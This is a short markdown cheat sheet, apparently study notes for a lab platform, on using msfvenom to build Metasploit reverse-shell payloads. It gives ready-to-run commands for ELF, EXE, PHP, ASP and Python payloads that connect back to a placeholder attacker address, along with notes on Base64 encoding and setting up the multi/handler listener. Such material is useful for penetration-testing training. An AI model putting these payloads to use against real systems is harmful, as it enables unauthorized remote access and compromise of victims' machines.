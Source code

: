 ## msfconsole: To generate the payloads
- MsfVenom - a Metasploit standalone payload generator.
- Msfvenom, which replaced Msfpayload and Msfencode, allows you to generate payloads.
- Msfvenom will allow you to access all payloads available in the Metasploit framework. 
- Msfvenom allows you to create payloads in many different formats (PHP, exe, dll, elf, etc.) and for many different target systems (Apple, Windows, Android, Linux, etc.).
- **msfvenom --list** formats command can be used to list supported output formats.

## Encoder: (can be done by msfvenom)
- eg: msfvenom -p php/meterpreter/reverse_tcp LHOST=10.10.x.x -f raw -e php/base64
- with the -e parameter. The PHP version of Meterpreter was encoded in Base64

## Handlers: (Listener)
- Similar to exploits using a reverse shell, you will need to be able to accept incoming connections generated by the MSFvenom payload.
- use **exploit/multi/handler** to receive the incoming connection.
- 

## Other Payloads:
- Linux Executable and Linkable Format (elf) (Change Permission chmod +x shell.elf &  run this file by typing ./shell.elf)
> msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=10.10.X.X LPORT=XXXX -f elf > rev_shell.elf
- Windows
> msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.X.X LPORT=XXXX -f exe > rev_shell.exe
- PHP (Remove php comments to make file executable)
> msfvenom -p php/meterpreter_reverse_tcp LHOST=10.10.X.X LPORT=XXXX -f raw > rev_shell.php
- ASP
> msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.X.X LPORT=XXXX -f asp > rev_shell.asp
- Python
> msfvenom -p cmd/unix/reverse_python LHOST=10.10.X.X LPORT=XXXX -f raw > rev_shell.py

### Note: All of the examples above are reverse payloads. This means we need to have the exploit/multi/handler module listening on attacking/local machine to work as a handler, need to set up the handler accordingly with the payload, LHOST and LPORT parameters. These values will be the same we have used when creating the msfvenom payload.

